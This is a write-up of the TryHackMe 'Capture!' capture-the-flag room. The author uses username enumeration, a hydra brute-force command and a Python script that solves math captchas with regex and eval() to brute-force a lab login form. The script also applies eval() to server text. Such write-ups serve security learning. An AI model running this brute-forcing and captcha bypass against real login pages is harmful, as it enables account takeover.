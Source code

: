 # Capture! Writeup

This room can be found at https://tryhackme.com/room/capture

This room is created by TryHackMe and toxica0r

# Task 1

The first task is to download a zip file which contains 2 text files. 
```
usernames.txt
passwords.txt
```

Its safe to assume one of the combinations of username and passwords are correct.

# Task 2

The second task is to find the flag.

## NMap

First, I scanned with nmap to see which ports are open.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```

There is a python server open at port 80, accessing with a web browser,

![Login page](images/1.png)

Trying to login with dummy credentials shows an error `'username' does not exist`

## Hydra

Since the error message shows that a user does not exist, this can be used to show that a user exists if the error message is not returned.

Hydra might be able to bruteforce a correct username.

Using the command
```
hydra -L usernames.txt -P passwords.txt 10.10.161.99 http-post-form '/login:username=^USER^&password=^PASS^:does not exist'
```

hydra says that every password is correct, which is not the case.

Going back to the browser, I saw that there was an error message that says `Too many bad login attempts!`

The webpage then provides a captcha.

This prevents me from using hydra to bruteforce.

I'll need a different way to bypass this captcha.


## Python
I was unsure of what tools to actually use to bypass the captcha. So I decided to take a look at the room forums for some hints. 

Many people were talking about using python so I decided to do some research on this.

Python has many different ways to request URLs. Such as `BeautifulSoup` and `Requests`.

I was not exactly sure how to script this in python, so I decided to look at some of the existing write-ups to see how other people perform the requests and bypass the captcha.

### Sending requests
The first step is to form the request.

```
# Function to send the web request, sends captcha as well if given
def send_request(username, password, captcha=None):
	data = {
		'username':username,
		'password':password
	}
	if captcha:
		data.update({'captcha':captcha})
	response = requests.post(url=url, data=data)
	return response
```

This python function will create and send the post request to the server. If there is a captcha answer provided, it will append that to the request as well.

### Extracting and solving the captcha
Next is a function that will grab the captcha question from the response and get the correct answer for the next request.

```
# Function to solve the captcha using regex to find the question
# and use eval() to evaluate the string
def solve_captcha(response):
	regexResult = re.findall(regex, response.text)
	#print(regexResult)
	if regexResult is not None: 
		captcha = regexResult[0]
		result = eval(captcha)
		#print(result)
		return result
```

This function will make use of regular expressions to extract the captcha question.

With some testing, the questions are always in the format of 3 digits, an operator and 2 digits. And the operation is only add, subtract or multiply.

Using a regex generator,
```
regex = re.compile(r'(\d+\s[+*/-]\s\d+)\s\=\s\?')
```
I created a regex using the `re` package in python.

The regex will extract the question and pass it to python's `eval()` function which will evaluate a string.

The answer is then passed to the send request function to be used.

### Looping through the usernames and passwords

The main part of the script will loop through the usernames until a valid username is found and then it will loop through the passwords until a valid combination is found

```
# Loops through the usernames until existing username is found
# Then loops through the passwords until the correct combination is found
for username in usernames:
	print(f'Current Username: {username}')
	response = send_request(username, "None", None)

	if 'Captcha enabled' in response.text:
		captcha = solve_captcha(response)
		response = send_request(username, "None", captcha)

	if not 'does not exist' in response.text:
		for password in passwords:
			print(f'Current Password: {password}')
			response = send_request(username, password, captcha)
			if not 'Error' in response.text:
				print(f'Combination found!')
				print(f'{username}:{password}')
				exit(0)
			else:
				captcha = solve_captcha(response)
```

Since searching for a valid username does not require a password, a dummy password `None` is used. And the first request will be send without a captcha answer as I do not know the captcha question.

If the response contains the text `Captcha enabled` it will then run the `solve_captcha` function. 

If a valid username is found, the response will NOT contain the text `does not exist`. So the script will use that username and start testing the passwords.

If the response does not contain the text `Error`, it means the correct password is found. It will then print the username and password combination.

## Running the script

After running for awhile it returns the output
```
natalie:sk8board
```

Using this to login to the webpage reveals the flag.

![Flag found](images/2.png)

# Conclusion

After attempting this room, I found out that I am still not very good at my python scripting skills and knowing which packages to use. I will need to brush up on my python scripting skills especially the syntax.

